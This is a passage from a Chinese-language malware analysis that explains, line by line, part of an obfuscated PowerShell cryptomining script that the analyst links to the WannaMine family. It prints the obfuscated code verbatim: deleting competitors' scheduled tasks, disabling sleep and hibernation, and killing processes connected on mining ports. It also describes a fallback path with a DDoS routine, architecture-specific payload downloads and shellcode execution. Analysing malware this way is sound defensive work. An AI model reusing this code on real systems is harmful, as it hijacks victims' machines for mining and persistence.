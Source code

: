我理解为删除了竞争恶意软件的计划任务。

```powershell linenums="300"
S`chTas`kS /delete /tn "WindowsLogTasks" /f
S`chTas`kS /delete /tn "System Log Security Check" /f
```

302-305 行禁用系统省电功能，确保持续运行：

- 禁用待机模式
- 禁用休眠
- 设置电源配置防止系统休眠

```powershell linenums="302"
P`oW`ErcFg /CHANGE -standby-timeout-ac 0
POW`ErC`FG /CHANGE -hibernate-timeout-ac 0
POwe`Rc`Fg -SetAcValueIndex 381b4222-f694-41f0-9685-ff5bb260df2e 4f971e89-eebd-4455-a8de-9e59040e7347 5ca83367-6e45-459f-a27b-476b1d01c936 000
```

306-325 行终止所有连接到 80 或 14444 端口的进程：

- 获取所有 PowerShell 进程的 ID，按照 CPU 使用率降序排序
- 收集当前所有 TCP 网络连接信息
- 杀死所有连接状态为 `ESTABLISHED`（已建立）且端口为 80 或 14444 的 PowerShell 进程

WannaMine 家族的病毒的矿池地址也使用 14444 端口，加上优先杀死 CPU 使用率更高的进程，所以判断为杀死竞争恶意软件的挖矿进程。

```powershell linenums="306"
[array]$psids= Get-`prOCe`Ss -name powershell |s`Ort cpu -Descending| F`o`ReA`CH-oBJEcT {$_.id}
$tcpconn = ne`TST`AT -anop tcp
if ($psids -ne $null )$StaticClass
{
    foreach ($t in $tcpconn)
    {
        $line =$t.split(' ')| ?{$_}
        if ($line -eq $null)
        {continue}
        if (($psids -contains $line[-1]) -and $t.contains(('ESTABL'+'ISHE'+'D')) -and ($t.contains((':8'+'0')) -or $t.contains((':14'+'444'))))
        {
            $temp = $line[-1]
            $ParentProcessId = (get-wmiobject -Class Win32_Process -Filter "ProcessId=$temp").ParentProcessId
            if ($psids -contains $ParentProcessId){
                g`E`T-PROCESS -id $ParentProcessId | s`TO`P-PRo`cesS -force
            }
            g`E`T-PROCESS -id $temp | s`TO`P-PRo`cesS -force
        }
    }
}
```

327-348 行基于之前 WMI 管理类创建是否成功来执行不同的逻辑：

- 如果 `$runingFlag` 为真（WMI 类创建成功）直接执行之前定义的持久化脚本 `$script`
- 如果 WMI 类创建失败，则执行备用方案：
    - 解码并加载漏洞利用函数 `$funs`，也就是 `$fffffff`
    - 执行 `RunDDOS` 函数，启动 DDoS 攻击，关于 `cohernece.exe` 的分析见[cohernece.txt](#cohernecetxt)，第二个参数是 `cohernece.exe` 的哈希值
    - 根据系统架构差异下载执行不同的恶意脚本（使用 `WScript.Shell` 对象隐藏执行窗口）：
        - 64 位系统：`/w/antivirus.ps1`
        - 32 位系统：`/w/antitrojan.ps1`
    - 调用 `Invoke-Brexit` 函数执行 ShellCode

